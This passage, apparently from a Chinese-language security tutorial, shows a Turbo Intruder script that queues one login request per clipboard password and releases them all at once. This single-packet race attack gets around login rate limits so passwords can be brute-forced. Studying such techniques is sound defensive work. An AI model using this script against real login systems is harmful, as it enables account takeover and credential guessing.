 [![](assets/1705886561-be8f285cdad5e0df0b3ea5d30f4361e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120154825-4aea5042-b768-1.png)

因为我们要首先并发的同时又要实现每一个包对于的 passwd 都不一样的话就得稍微修改一下脚本

```bash
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # 接收剪切板的内容
    passwords = wordlists.clipboard

    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
